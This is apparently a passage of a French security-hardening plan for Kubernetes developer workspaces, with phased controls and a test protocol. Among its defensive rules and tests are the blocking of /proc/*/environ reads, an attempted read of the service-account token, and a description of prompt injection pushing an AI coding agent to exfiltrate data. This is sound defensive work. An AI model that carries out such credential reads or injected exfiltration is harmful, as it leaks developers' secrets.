**Migration** : Les PVC existants appartiennent à 1234 : `fsGroup` corrige le groupe au montage, mais pas le propriétaire. Il faut un `chown` une seule fois via un init container ou un Job, ou recréer les workspaces. On teste d'abord sur `batleforc-test`.

#### PSA `restricted` et user namespaces

**Pourquoi** : `baseline` laisse passer root, l'élévation de privilèges et les capabilities par défaut. `restricted` les retire. `hostUsers: false` fait que root dans le conteneur n'est plus root sur le nœud, ce qui coupe la plupart des évasions.

**Comment** : Mettre d'abord `warn` et `audit` en restricted, en gardant `enforce` en baseline, puis lire les warnings. `passwd-append` sert pour l'UID arbitraire. `hostUsers: false` passe par le podSpec du DWOC épinglé, après avoir vérifié que Talos et Longhorn le supportent (idmap mounts).

**Vérif** : Aucun warning PSA au démarrage, et `cat /proc/self/uid_map` montre un mapping non identitaire.

### Phase 6 · Bloquer à l'exécution

> Il faut au moins deux semaines d'historique de la phase 1, collectées **après** la phase 5. Le moteur et les UID changent le contenu des événements : un Block calibré sur runc et 1234 serait à refaire. Un Block sans données casse l'IDE au mauvais moment.

#### KubeArmor : passer les règles en Block une par une

**Pourquoi** : Les règles actuelles ne font que témoigner. Les plus rentables sont celles qu'un usage normal ne déclenche jamais : `net_raw` (spoofing ou scan), l'écriture dans `/usr/bin` et `/usr/sbin` (persistance), la lecture de `/proc/*/environ` (vol de secrets).

**Comment** : Passer en Block une règle à la fois dans `weebo-armor-base`, en suivant le runbook `bascule-weebo-si`. Passer la posture du namespace (fichiers et capabilities) en block seulement à la fin. Le réseau reste géré par Cilium.

**Vérif** : `ping` échoue avec Permission denied, ClickStack voit l'événement Block, et l'IDE, git et npm marchent toujours.

### Phase 7 · Outils de team et sidecars

> C'est une feature qui manque à weebo-si. Certains outils ne peuvent pas tourner dans un workspace durci : BuildKit veut des privilèges, un émulateur Android veut `/dev/kvm`. Ceux-là sortent dans un namespace de team, démarrés à la demande. Tous les autres restent des sidecars dans le pod du workspace et y héritent de tout son durcissement. La première étape fixe la frontière entre les deux.

#### Outil de team ou sidecar : la règle

**Principe** : Par défaut, un outil est un **sidecar**. Il ne devient un **outil de team** que s'il remplit au moins un des critères ci-dessous. Le but est que le pod du workspace n'ait jamais besoin d'une exception au durcissement.

**Outil de team si…** :

- **Il demande un privilège ou un périphérique** que le workspace n'a pas : user namespace imbriqué, seccomp ou AppArmor non confinés, `/dev/kvm`. C'est le critère décisif : c'est lui qui protège le workspace.
- **Il est trop lourd pour un exemplaire par développeur** et reste inactif la plupart du temps : un émulateur, c'est 2 à 4 Gio par instance.
- **Son état n'a de valeur que partagé**, comme le cache de build d'une team.

**Sidecar si…** :

- Il tourne sous `restricted`, youki, `hostUsers: false` et l'UID du namespace, sans exception.
- Son état appartient au développeur et peut être jeté : une base de test, un Redis, un S3 de dev.
- L'application testée le joint sur `localhost`, et il vit et meurt avec le workspace.

**Classement** :

| Outil | Place | Raison |
|---|---|---|
| BuildKit | **Team**, à la demande | Privilèges (user namespace imbriqué, seccomp et AppArmor non confinés) et cache partagé. |
| Émulateur Android | **Team**, à la demande | `/dev/kvm`, et 2 à 4 Gio par instance. |
| Postgres, Redis | Sidecar | Sans privilège, données de test du développeur, joints sur `localhost`. |
| rustfs (S3 de dev) | Sidecar | Sans privilège, un bucket jetable par workspace. À distinguer du rustfs de la plateforme (`s3`), qui reste un service. |
| Playwright, Selenium | Sidecar | Navigateurs headless sans privilège. Le sandbox Chromium utilise des user namespaces imbriqués, qui pourraient être refusés sous `restricted` : à tester, avec `--no-sandbox` en dernier recours, puisque le pod est lui-même isolé. |
| sccache | Sidecar | Le client et le serveur local tournent dans le pod, sans privilège. Seul le stockage du cache est partagé, dans un bucket de team sur le rustfs de la plateforme. |

**Sidecars en pratique** :

- **Composants devfile tout prêts.** Une bibliothèque de composants approuvés (devfile parent, ou un registre de devfiles interne) : une image angos et des ressources fixées. Elle ne couvrira jamais 100 % des cas, d'où le générateur de devfile et la porte de sortie décrits en phase 8.
- **Ce que le sidecar hérite du workspace :** imagePolicy, PSA, KubeArmor, les policies réseau (même pod, même sortie, donc pas de CNP à écrire) et le quota (ses ressources s'additionnent à celles du workspace, à prévoir dans les profils `resourceQuotas`).
- **Le point à surveiller :** une règle KubeArmor du workspace s'applique aussi au sidecar. Il faut la calibrer avec les sidecars actifs (phase 6).

#### Le modèle : un namespace d'outils par team

**Principe** :

- **Un namespace d'outils par team.** La team `weebo` obtient `team-weebo-tools`. Il est créé à partir d'un catalogue d'outils écrit par l'admin, comme les catalogues des autres features, et la team choisit ce qu'elle active.
- **Ce que chaque outil reçoit :**
  - une policy Cilium qui n'admet que les workspaces de sa team (namespaces `weebo.io/team=weebo`), sur le seul port de l'outil ;
  - ses propres règles de sortie, sur le modèle des profils `networkProfiles` ;
  - un quota de namespace ;
  - un endpoint protégé par `endpointAuth`, en accès `team`, s'il a une interface web.
- **Côté workspace,** l'adresse de l'outil arrive par un ConfigMap copié dans le namespace, sur le même modèle que `registryConfig`. Par exemple `BUILDKIT_HOST`, `ADB_SERVER_SOCKET` ou l'URL de la grille.

**À la demande** : Un outil de team est à **0 réplique par défaut**. Il ne démarre que quand il va servir : Pas d'activateur TCP à installer (KEDA ou Knative) : l'opérateur surveille déjà les DevWorkspaces, il a donc déjà le signal.

- **Demande :** le workspace déclare dans son devfile l'outil dont il a besoin (attribut `hardening.weebo.io/team-tools: [buildkit]`). La demande est vérifiée contre ce que la team a le droit d'utiliser, comme pour les profils réseau.
- **Démarrage :** dès que le premier workspace demandeur passe en Running, l'opérateur met l'outil à 1. Il démarre en même temps que l'IDE, donc il est prêt quand le développeur lance son premier build.
- **Arrêt :** retour à 0 quand plus aucun workspace demandeur ne tourne, ou après N minutes sans activité. L'activité se lit sur les métriques de `buildkitd` (builds en cours) ou sur le nombre de connexions `adb` à l'émulateur.
- **Démarrage à froid :** si l'outil est encore en train de démarrer, le client attend. `buildx` et `adb` savent réessayer, et l'émulateur part d'un snapshot (quickboot) pour démarrer vite.

**Mise en œuvre** :

- **Première version :** une Application Argo de team, comme `identity` le fait déjà par utilisateur avec `che-user-<user>`. Elle rend un chart `2.helm/team-tools` où chaque outil est déclaré à 0 réplique, avec ses policies, son quota et son ConfigMap. Argo doit ignorer `/spec/replicas` (`ignoreDifferences`), sinon le selfHeal remettrait 0 en plein build.
- **Une vraie feature weebo-si** (`teamTools` : crate et adapters, comme les autres features). Le démarrage et l'arrêt à la demande en font partie dès le départ : c'est le cœur de la feature, et un chart seul ne sait pas le faire. Elle apporte aussi un catalogue global, l'accord par team, les modes `DryRun`/`Enforce`, la protection des policies générées par policyGuard, et la liste des outils actifs dans le statut de la team. C'est un sujet de RFC dans weebo-si-hardening.

**Limite** : À l'intérieur d'une team, l'outil est partagé : un membre peut empoisonner le cache BuildKit des autres, ou voir l'écran d'un émulateur. C'est acceptable entre membres d'une même team. Entre teams, tout reste cloisonné par namespace et par réseau. Pour un outil sensible, une option « une instance par utilisateur » reste possible, avec le même modèle.

#### BuildKit : construire des images sans privilège dans le workspace

**Pourquoi** : Che coupe la construction d'images sur Kubernetes (`disableContainerBuildCapabilities` forcé à true). Construire une image dans le workspace demanderait des privilèges incompatibles avec `restricted`. Un `buildkitd` de team déplace ce besoin hors du workspace, qui n'a plus qu'un client (`buildctl`, `docker buildx` avec un driver remote).

**Comment** :

- `buildkitd` en mode rootless dans `team-weebo-tools`, sur runc : il lui faut son propre user namespace, un seccomp et une AppArmor non confinés. C'est l'exception assumée, isolée dans ce namespace.
- Accès en mTLS avec un certificat client par utilisateur, émis par cert-manager. On sait ainsi qui a lancé quel build, et un workspace d'une autre team ne peut pas s'en servir.
- Les `FROM` passent par angos (imageRewrite ne s'applique pas ici : il faut configurer les miroirs dans `buildkitd.toml`), et le push va vers le dépôt `weebo` d'angos.
- Les étapes `RUN` ont la même sortie réseau qu'un workspace (`dev-registries`, BatleHub), pas Internet.
- Le cache est sur un PVC de team, avec un quota. Il survit quand l'outil est arrêté : seul le pod disparaît.
- À la demande : démarré par le premier workspace qui le demande, arrêté après N minutes sans build en cours.

**Vérif** : Sans workspace demandeur, `buildkitd` est à 0 réplique. Au démarrage d'un workspace qui le demande, il passe à 1. `docker buildx build --push` depuis le workspace pousse dans angos. Un `FROM` vers un registre direct passe bien par le miroir. Un workspace d'une autre team est refusé (réseau et mTLS).

#### Appareils Android de team

**Pourquoi** : L'émulateur a besoin de `/dev/kvm`. Le mettre dans un pool de team évite d'ouvrir ce périphérique et d'augmenter la RAM de chaque workspace Android. Les 8 à 16 Gio vont aux émulateurs, partagés, plutôt qu'à chaque développeur.

**Comment** :

- Un ensemble d'émulateurs par team (au plus N), chacun dans un pod avec `/dev/kvm` exposé par un device plugin (le nœud a KVM, confirmé). Ils tournent sur runc ou youki, à tester.
- À la demande, un émulateur par workspace demandeur, jusqu'à N. Il démarre depuis un snapshot quickboot conservé sur un PVC, et s'arrête quand le workspace s'arrête ou qu'aucune connexion `adb` n'est ouverte depuis N minutes.
- `adb` écoute sur le réseau interne, joignable uniquement par les workspaces de la team.
- L'écran passe par ws-scrcpy derrière `endpointAuth`, en accès `team`.
- Les appareils physiques des développeurs restent possibles via Netbird, comme une entrée de plus dans le même catalogue.

**Vérif** : `adb devices` liste les émulateurs de la team depuis le workspace, et pas ceux d'une autre team. L'écran est accessible uniquement aux membres de la team.

#### Ordre de mise en place

**1** : La bibliothèque de sidecars (Postgres, Redis, rustfs de dev, Playwright, sccache), publiée dans le devfile parent commun (phase 8). Il n'y a pas de code à écrire, ils profitent directement des phases 3 à 6, et ça répond au besoin le plus fréquent.

**2** : BuildKit à la demande. Il valide le modèle d'outil de team : namespace, mTLS, démarrage et arrêt à la demande.

**3** : Les émulateurs Android, quand le dev mobile démarre.

### Phase 8 · Expérience développeur : devfiles et User Guide

> Le durcissement ne tient que si les développeurs ne cherchent pas à le contourner. Il faut un chemin facile pour obtenir un bon devfile, une alerte quand il vieillit, et une doc qui explique les règles avant qu'on les découvre en se cognant dedans.

#### Principe : le catalogue aide, il ne protège pas

**Pourquoi** : La bibliothèque de composants ne couvrira jamais 100 % des cas. Si elle était la seule voie autorisée, chaque cas non couvert deviendrait une demande d'exception ou un contournement. La sécurité doit donc venir de ce que le cluster impose (imagePolicy, PSA, KubeArmor, réseau, quotas, youki, UID), pas du catalogue.

**Conséquence** : Un développeur peut toujours écrire son propre composant : c'est la porte de sortie. Il reste soumis aux mêmes règles qu'un composant du catalogue. Le catalogue est le chemin facile et maintenu, la porte de sortie est le chemin libre mais sans garantie de suivi.

#### Un générateur de devfile, puis une approche plateforme

**Pourquoi** : Un générateur produit un devfile complet à partir du projet et des choix du développeur. Il couvre plus de cas qu'une liste de composants à recopier, et il sait **qui** a généré **quoi** et **en quelle version**. C'est ce qui permet ensuite de prévenir le développeur quand son devfile n'est plus à jour.

**Étape 1 : le générateur** :

- **Ce qu'il fait :** une CLI (ou une page) qui détecte la stack du projet (`package.json`, `Cargo.toml`, `build.gradle`…), propose les sidecars et outils de team adaptés, et écrit le devfile.
- **Sa base :** un devfile `parent` versionné, publié dans un registre de devfiles interne, qui porte l'image de base, les sidecars approuvés et les ressources.
- **Ce qu'il marque :** la version du parent et celle du générateur, en attributs (`weebo.io/devfile-parent: 1.4.0`, `weebo.io/generator: 0.3.0`).
- **Ce qu'il laisse libre :** les composants personnalisés, qui restent à la main du développeur.

**Étape 2 : plateforme** : Le générateur devient un « golden path » dans un portail, avec un modèle de projet par stack. Un nouveau projet sort directement avec son devfile, son pipeline et son enregistrement dans le catalogue. Backstage est l'option standard, une page dans la doc ou dans le dashboard Che suffit au début. Le générateur de l'étape 1 est le moteur, donc rien n'est jeté en passant à l'étape 2.

**Devfile pas à jour** : Trois niveaux, du plus doux au plus ferme :

- **Renovate** (déjà le seul outil de mise à jour des dépendances) suit la version du parent dans les devfiles et ouvre une PR sur le dépôt. Il faut un custom manager sur l'attribut `weebo.io/devfile-parent`.
- **Avertissement au démarrage :** le webhook DevWorkspace de weebo-si compare la version du parent à une version minimale supportée. En dessous, il laisse passer mais ajoute une admission warning et une condition sur le DevWorkspace. L'IDE peut afficher une notification (une extension che-code qui lit cette condition).
- **Refus :** seulement pour une version marquée vulnérable, avec le même mécanisme en `Enforce`.

**Devfile écrit à la main** : Un devfile écrit à la main (sans générateur, avec ou sans parent) garde un contrôle de version : la porte de sortie reste libre, mais elle est suivie.

- **Version du contrat de plateforme, obligatoire partout.** Tout devfile déclare `weebo.io/platform-contract` : le générateur l'écrit tout seul, et à la main c'est une ligne. Ce numéro dit avec quelles règles de la plateforme le devfile a été écrit (images via angos, profils, UID, youki…). Il monte à chaque changement de règle qui peut casser un devfile, et le User Guide publie ce qui change à chaque version.
- **Attribut absent :** le devfile est traité comme ayant la plus vieille version supportée. Il reçoit donc l'avertissement, qui dit en plus quel attribut ajouter.
- **Contrôles appliqués à tous les devfiles, générés ou non :**
  - `schemaVersion` au-dessus d'un minimum ;
  - un `parent` épinglé (tag ou commit, pas une branche) ;
  - les images des composants suivies par Renovate (un custom manager regex sur les champs `image:`). À terme, un avertissement si angos a marqué l'image vulnérable lors de son scan.
- **Mêmes trois niveaux que pour un devfile généré :** Renovate, avertissement, refus pour une version vulnérable seulement. Écrire son devfile à la main ne dispense d'aucun contrôle, et n'en ajoute aucun.

**À vérifier** : Comment le dashboard Che affiche les admission warnings (sinon, seule la notification dans l'IDE sera visible), et la résolution des `parent` par URI ou par registre dans la version de Che déployée.

#### Deux façons d'organiser son env de dev (à documenter)

**Projet chapeau** : Un dépôt dédié à l'env de dev : un devfile et les scripts de l'environnement (setup, données de test, tâches communes). Il liste les dépôts applicatifs à cloner (`projects:` du devfile).

- **À utiliser pour :** un produit en plusieurs dépôts, un env commun à toute une team, des dépôts dont on n'est pas propriétaire.
- **Risque :** l'env et le code évoluent séparément. Une branche applicative qui a besoin d'un autre env n'a nulle part où le dire.

**Devfile dans le projet** : Un `.devfile.yaml` à la racine du dépôt applicatif. Ouvrir l'URL du dépôt dans Che suffit.

- **À utiliser pour :** un projet en un seul dépôt.
- **Avantages :** l'env est versionné avec le code et peut différer selon la branche.
- **Risque :** la duplication entre dépôts, compensée par le parent commun et Renovate.

**Recommandation** : C'est une recommandation, pas une obligation. Devfile dans le projet pour un projet à un seul dépôt, projet chapeau pour un produit en plusieurs dépôts. Dans les deux cas, on part du parent commun.

**Exemple chapeau** : `batleforc/weebo-che-project` est un bon cas réel à citer dans le User Guide.

- **Ce qu'il contient :**
  - un `devfile.yaml` qui hérite du parent `che-min-mise` (WeeboDevImage) et n'ajoute que ses endpoints ;
  - six dépôts clonés (`projects:`) : che-dashboard, che-code, le plugin et le serveur JetBrains, WeeboDevImage, et lui-même ;
  - les scripts de l'env : un `Taskfile.yaml` avec `.task/`, `scripts/fork-sync.sh` piloté par `forks.yaml`, la mesure du temps de démarrage, et `mise.toml` ;
  - les RFC dans `.rfc/`, et une variante `devfile.forgejo.yaml` pour cloner depuis Forgejo.
- **Ce qu'il illustre aussi :** un piège à corriger. Son parent pointe vers `refs/heads/main`, donc il change à chaque commit de WeeboDevImage. Il faudrait l'épingler sur un tag ou un commit et laisser Renovate proposer les mises à jour. Il n'a pas non plus d'attribut `weebo.io/platform-contract`, puisque ce contrat reste à créer.

**Les pièges à documenter** :

- **Devfile présent aux deux endroits :** c'est l'URL ouverte qui décide. Ouvrir le dépôt applicatif ignore le chapeau, et l'inverse aussi.
- **Scripts de setup qui téléchargent depuis Internet :** la sortie est bloquée par les profils réseau, donc ils échouent en silence ou en timeout. Il faut passer par BatleHub et angos, ou demander un profil.
- **Images épinglées à la main hors angos :** elles sont réécrites ou refusées, et il faut comprendre pourquoi.
- **Secrets dans les scripts du chapeau :** interdit. Ils doivent passer par OpenBao.
- **Composants en double** entre le parent et le devfile enfant : il faut connaître la règle de fusion des devfiles.
- **Un parent non épinglé** change sous les pieds de tout le monde : épingler et laisser Renovate proposer les mises à jour.

#### Ajouter une partie « User Guide » à la doc

**Pourquoi** : La doc actuelle (`0.docs/content/docs`) est tournée vers l'exploitation : infra, runbooks, sécurité, RFC. Un développeur qui arrive n'y trouve pas comment travailler avec les règles du cluster. Il les découvre au moment où un workspace refuse de démarrer.

**Où** : Une nouvelle section `0.docs/content/docs/user-guide/`, avec son `meta.json`. Elle fait le lien avec `dev-env/`, qui reste la partie plateforme.

**Pages** :

- Démarrer son premier workspace.
- Projet chapeau ou devfile dans le projet : choisir, et les pièges.
- Utiliser le générateur et le parent commun, et que faire quand le devfile est signalé obsolète.
- Le contrat de plateforme : ce que veut dire `weebo.io/platform-contract`, et ce qui change à chaque version.
- Les sidecars du catalogue, et écrire son propre composant (la porte de sortie et ses règles).
- Demander un outil de team (BuildKit, émulateur Android) et ce que veut dire « à la demande ».
- Ce que le workspace peut joindre : profils réseau, comment en demander un, BatleHub et angos.
- Ce qui est bloqué et pourquoi : images, KubeArmor, token, UID, quotas, en une page lisible par un dev.
- Dépannage : workspace bloqué en Starting, image refusée, connexion qui expire, quota dépassé.

**Quand** :

- La page sur les deux façons d'organiser son env peut s'écrire tout de suite : elle ne dépend de rien.
- Chaque autre page s'écrit dans la même PR que la phase qui change le comportement (Block KubeArmor, quotas, youki…). Le changement et son explication arrivent ensemble.

### Phase 9 · Cycle de vie

> Le durcissement s'use. Un utilisateur qui part laisse des données et des droits derrière lui. Une chaîne Che et des images qu'on ne met plus à jour accumulent des failles. Ces deux points sont continus, pas ponctuels.

#### Départ d'un utilisateur

**Pourquoi** : Quand `WeeboSiUser.active` passe à `false`, rien ne dit aujourd'hui ce que deviennent son namespace, ses PVC, ses Secrets (PAT, credentials git), son AuthentikUser et son App Argo `che-user-<user>`. Cette App est en `prune: false`, donc des restes sont probables. Un compte parti dont les tokens vivent encore est un accès oublié.

**Comment** :

- Un runbook `depart-utilisateur.mdx` à côté de `onboarding-utilisateur.mdx`, en trois temps :
  - **Tout de suite :** workspaces arrêtés, AuthentikUser désactivé, PAT et tokens révoqués côté Forgejo et GitHub.
  - **Pendant une durée de conservation définie** (par exemple 30 jours) : PVC conservés, avec un snapshot Longhorn.
  - **Ensuite :** namespace et App supprimés.
- À terme, c'est le reconcile `identity` qui le fait sur le passage à `active: false`.

**Vérif** : Faire le test avec `batleforc-test` : après le délai, plus aucun objet ne porte son nom dans le cluster, dans authentik ni dans Argo.

#### Mises à jour de la chaîne Che et des images

**Pourquoi** : Les forks `weebo-si/che-*` (synchronisés par `fork-sync.sh` dans `weebo-che-project`) et WeeboDevImage sont maintenus à la main. Sans rythme fixe, une CVE de che-server, de che-code ou de l'image de base reste ouverte aussi longtemps qu'on n'y pense pas.

**Comment** :

- Un rythme écrit : sync des forks au moins à chaque version stable de Che, et un rebuild hebdomadaire de WeeboDevImage pour les paquets de base.
- Signer les images WeeboDevImage dans la CI (cosign keyless) et publier un SBOM. C'est le prérequis de la vérification par Kyverno (« Images signées ou scannées »).
- Faire passer chaque montée de version Che par le contrôle de dérive du DWOC de repli (phase 5).

**Vérif** : Les images en service ont moins de 7 jours. `cosign verify` passe sur l'image du workspace.

### Phase 10 · Aller plus loin

> Ces points demandent un nouveau composant ou un changement d'usage. On les fait une fois la base saine.

#### Images signées ou scannées

**Pourquoi** : imagePolicy contrôle d'où vient une image, pas ce qu'elle contient. Une image upstream compromise passe par angos sans aucun contrôle.

**Comment** : Une `ImageValidatingPolicy` Kyverno (cosign) sur les namespaces de workspace, en commençant par les images `weebodevimage` qu'on signe soi-même dans la CI. Les images upstream en audit seulement.

#### Git par Forgejo uniquement

**Pourquoi** : github.com en 443/22 est une sortie de données vers n'importe quel dépôt. Le profil `dev-registries` l'autorise pour tout le monde.

**Comment** : Créer des miroirs Forgejo pour les dépôts GitHub utilisés, retirer github.com de `dev-registries` et en faire un profil séparé, accordé au cas par cas.

#### Credentials courts

**Pourquoi** : Le PAT et les credentials git sont des Secrets statiques qu'on peut lire depuis le workspace. S'ils fuient, ils restent valables jusqu'à leur révocation manuelle.

**Comment** : Les faire émettre par OpenBao avec un TTL de quelques heures, via ExternalSecret et un refresh.

#### Isolation Kata (piste pour plus tard)

**Pourquoi** : Un workspace exécute du code arbitraire, ce qui est exactement le cas d'usage d'un sandbox. Le noyau partagé reste la dernière barrière.

**Comment** : Voir le comparatif des moteurs plus bas. Il faut ajouter l'extension Talos au schematic, créer une RuntimeClass (avec `overhead` pour que les quotas en tiennent compte), puis une entrée dédiée dans le catalogue `dwocPin` : un DWOC qui fixe `runtimeClassName`. Les workspaces sensibles passent ainsi en sandbox sans toucher aux autres. Attention : modifier le schematic déclenche une réinstallation Talos, donc suivre la procédure d'upgrade.

**Compromis** : Sous gVisor ou Kata, KubeArmor ne voit plus ce qui se passe dans le pod. Les règles fichiers et processus, dont la protection du token, deviennent inopérantes. On gagne l'isolation du nœud, on perd le contrôle à l'intérieur du pod.

#### Sauvegardes et durée de vie des workspaces

**Pourquoi** : Le stockage per-workspace n'a pas de backup. Un workspace oublié qui tourne reste une surface exposée.

**Comment** : Un RecurringJob Longhorn de backup vers S3 sur les PVC workspace. Dans le CheCluster, `secondsOfInactivityBeforeIdling`, `secondsOfRunBeforeIdling` et `maxNumberOfRunningWorkspacesPerUser` (non vérifiés aujourd'hui).

#### Une passerelle LLM pour les agents IA

**Pourquoi** : `api.anthropic.com` est ouvert par défaut, avec une clé personnelle stockée dans le workspace. C'est un canal de sortie de données que la plateforme ne voit pas, et une injection de prompt (README piégé, dépendance) peut pousser l'agent à l'utiliser.

**Comment** :

- Une passerelle interne (type LiteLLM) en `*.weebo.poc` : clés virtuelles par utilisateur, émises par OpenBao, avec budget, journal des appels dans ClickStack et choix des modèles autorisés.
- Le profil `anthropic` ne vise plus que la passerelle, et seule la passerelle sort vers le fournisseur.
- Plus aucune clé de fournisseur dans les workspaces.

#### Durcir Che lui-même

**Pourquoi** : Le plan durcit le pod du workspace, mais `weebo-base` le laisse joindre che-server, le dashboard et la gateway (8080/8089), et son token parle à l'API. che-server et le DevWorkspace Operator ont des droits étendus sur tous les namespaces de workspace : ce sont des cibles de choix depuis un workspace compromis.

**Comment** :

- Limiter les ports et chemins atteignables depuis les workspaces au strict nécessaire (Cilium L7 sur 8080).
- Revoir les ClusterRoles de che-server et du DWO.
- Appliquer à `eclipse-che` et `devworkspace-controller` la même logique que pour les workspaces : PSA `restricted`, policies KubeArmor, sortie limitée.

#### Encadrer l'accès admin aux workspaces

**Pourquoi** : Un admin peut faire un `exec` dans un workspace, lire son PVC ou ses Secrets. C'est nécessaire pour le support, mais c'est aussi un accès au code et aux identifiants des développeurs, invisible pour eux.

**Comment** :

- Une règle écrite d'accès d'urgence : qui, quand, avec traçabilité.
- Une politique d'audit de l'apiserver (Talos) qui journalise `pods/exec`, `pods/portforward` et la lecture de Secrets dans `dev-ws-*`, envoyée dans ClickStack.
- Une alerte quand un admin entre dans le workspace d'un autre utilisateur.

## Protocole de test

Deux protocoles. Le premier lève les inconnues **avant** d'engager une phase : chaque test débouche sur une décision go / no-go. Le second vérifie, phase après phase puis en continu, que chaque menace visée par le plan est vraiment bloquée. Un test qui « passe » est un test où l'attaque **échoue**.

### Cadre commun

- **Où.** Uniquement dans `dev-ws-batleforc-test` et dans le namespace du workspace témoin (phase 1). Jamais dans le namespace d'un autre utilisateur. Les outils offensifs ne vont pas dans les images des développeurs : ils vivent dans une image `weebo-security-tests` dédiée, tirée via angos, ce qui teste au passage imagePolicy.
- **Format de chaque test.** Un identifiant (`V-xx` pour la validation amont, `T-xx` pour les menaces), la menace ou l'inconnue, l'action exacte, le résultat attendu, la preuve à conserver (sortie de commande, événement ClickStack, capture) et la phase qui l'introduit.
- **Référentiels.** Chaque `T-xx` est rattaché à une technique de la matrice MITRE ATT&CK Containers et de la Threat Matrix for Kubernetes de Microsoft. Une technique sans test est un angle mort assumé.
- **Preuve de détection.** Pour chaque blocage, on vérifie aussi que l'événement arrive dans ClickStack. Un blocage silencieux ne suffit pas.
- **Résultats.** Une page par campagne dans `0.docs`, avec la date, les versions (Talos, Cilium, KubeArmor, weebo-si, Che) et le statut de chaque ID. Un échec ouvre une issue et bloque le passage en `Enforce` de la phase concernée.
- **Nettoyage.** Chaque test supprime ce qu'il crée. Le témoin est recréé à chaque campagne.

### 1. Validation amont : les inconnues à lever

| ID | Inconnue | Action | Attendu, et décision si échec |
|---|---|---|---|
| V-01 | Les webhooks weebo-si peuvent-ils bloquer leur propre démarrage ? | `task k -- get mutatingwebhookconfiguration,validatingwebhookconfiguration -o json \| jq '.items[]\|select(.metadata.name\|test("weebo-si"))\|.webhooks[]\|{name,namespaceSelector,objectSelector}'` | Chaque webhook exclut `kube-system` et `weebo-si-hardening`, ou ne vise que les namespaces de workspace. Si échec : corriger le chart avant toute autre phase (risque au reboot). |
| V-02 | youki fait-il tourner un pod ? | Pod jetable `runtimeClassName: youki`, image angos, dans le namespace de test. `id`, `cat /proc/self/cgroup`, écriture sur un emptyDir. Côté nœud : `talosctl -n <nœud> logs cri` montre le handler `youki`. | Running, limites cgroups appliquées (`cat /sys/fs/cgroup/memory.max`). Si échec : on reste sur runc, et la phase 5 se fait sans youki. |
| V-03 | KubeArmor voit-il un pod youki ? | Sur le pod de V-02 : `karmor probe`, puis une écriture dans `/usr/bin` (règle Audit). | Le pod apparaît, et l'événement Audit sort avec le bon namespace et le bon pod. Si échec : youki seulement après un correctif KubeArmor. |
| V-04 | Cilium applique-t-il ses policies à un pod youki ? | `cilium endpoint list` (bonne identité). Depuis le pod : `curl` vers un FQDN autorisé et vers un interdit, puis `nslookup`. | Même comportement qu'avec runc, et les flux sont visibles dans Hubble. |
| V-05 | `hostUsers: false` fonctionne-t-il avec runc ? | Pod `hostUsers: false` avec un PVC Longhorn RWO et un Secret monté : `cat /proc/self/uid_map`, écriture sur le PVC puis `ls -n`, lecture du Secret. | Mapping non identitaire, PVC inscriptible, Secret lisible. |
| V-06 | `hostUsers: false` fonctionne-t-il avec youki ? | V-05 avec `runtimeClassName: youki`. | Identique à V-05. Si échec : choisir entre youki et user namespaces pour les workspaces, ou garder les user namespaces sur l'entrée de repli runc. |
| V-07 | KubeArmor bloque-t-il encore en user namespace ? Quel UID remonte-t-il ? | Pod de V-06 avec la règle `net_raw` en Block sur ce seul pod : `ping 1.1.1.1`. Lire l'UID dans l'événement. | `ping` refusé. On note l'UID vu (dans le conteneur ou traduit), ce qui conditionne la partie « savoir qui a agi » de l'UID par namespace. |
| V-08 | Quels binaires lisent le token ? | Règle KubeArmor en Audit sur `/var/run/secrets/kubernetes.io/serviceaccount/` pour `batleforc-test`, pendant 7 jours d'usage normal (démarrage, IDE, terminal, extensions). Agréger les `ProcessName` dans ClickStack. | La liste est réduite et stable : le Node de che-code sous `/checode`, et éventuellement machine-exec. Si la liste est large : revoir le principe du `fromSource`. |
| V-09 | La règle `fromSource` laisse-t-elle démarrer le workspace ? | Passer la règle de V-08 en Block avec la liste obtenue, sur `batleforc-test`. Démarrer, ouvrir l'IDE, ouvrir un terminal, puis `cat …/token`. | Le workspace passe en started, l'IDE remonte son état, et `cat` renvoie Permission denied. Si le workspace reste en Starting : revenir en Audit et compléter la liste. |
| V-10 | Les workspaces passent-ils en PSA `restricted` ? | Label `pod-security.kubernetes.io/warn=restricted` sur le namespace de test, puis démarrage du workspace avec et sans sidecars. | Aucun warning ni annotation `audit-violations`. Sinon, on liste les champs fautifs pour le DWOC. |
| V-11 | che-operator recopie-t-il `runtimeClassName` ? | Sur une copie de test du CheCluster, ou en pointant vers une RuntimeClass inoffensive, mettre `devEnvironments.runtimeClassName` puis lire le DWOC `devworkspace-config`. | Le champ apparaît dans `config.workspace.runtimeClassName`. |
| V-12 | che-operator conserve-t-il un `hostUsers` ajouté à son DWOC ? | Patch de `config.workspace.hostUsers: false` sur le DWOC Che, puis forcer un reconcile (modifier une annotation du CheCluster) et relire. | Si le champ survit, on l'utilise. Sinon : DWOC maison épinglé par défaut, décidé en phase 5. |
| V-13 | Un `parent` épinglé est-il résolu ? | Devfile de test avec un `parent.uri` pointant vers un tag, et un autre avec un `parent.id` et une `version` si un registre interne est utilisé. | Le workspace démarre avec les composants du parent. |
| V-14 | Les admission warnings sont-ils visibles ? | Un webhook de test qui renvoie un warning sur un DevWorkspace. Démarrer depuis le dashboard Che, puis avec `kubectl apply`. | On note où le warning apparaît. Si le dashboard ne l'affiche pas : la notification passera uniquement par l'extension che-code. |
| V-15 | Le sandbox Chromium (Playwright) marche-t-il en `restricted` et `hostUsers: false` ? | Sidecar Playwright : `npx playwright test` sur un test minimal, avec puis sans `--no-sandbox`. | Il fonctionne avec le sandbox. Sinon, `--no-sandbox` est documenté comme exception assumée. |
| V-16 | buildkitd rootless démarre-t-il, et à quel niveau PSA ? | Déploiement de test dans un namespace jetable, avec seccomp et AppArmor `Unconfined`, puis `buildctl build` depuis le namespace de test. | Le build passe. Le niveau PSA nécessaire du namespace d'outils est noté (`Unconfined` est refusé par `baseline`, donc il faudra `privileged`, limité à ce namespace). |
| V-17 | `/dev/kvm` est-il exposable proprement ? | Device plugin dans un namespace jetable, puis un pod qui demande la ressource : `ls -l /dev/kvm` et `emulator -accel-check`. Le même test avec `hostUsers: false`. | KVM utilisable, avec ou sans user namespace (droits sur le groupe `kvm`). |
| V-18 | `registryConfig` sait-il gérer Gradle ? | Lire l'enum `ecosystem` dans le CRD `WeeboSiTeam`. | Gradle ou Maven présent. Sinon : évolution de weebo-si à planifier. |
| V-19 | Quels domaines le DNS doit-il encore résoudre ? | 14 jours de requêtes DNS Hubble pour les namespaces `dev-ws-*`, agrégées par domaine. | Une liste fermée, qui sert de base à la restriction DNS. |
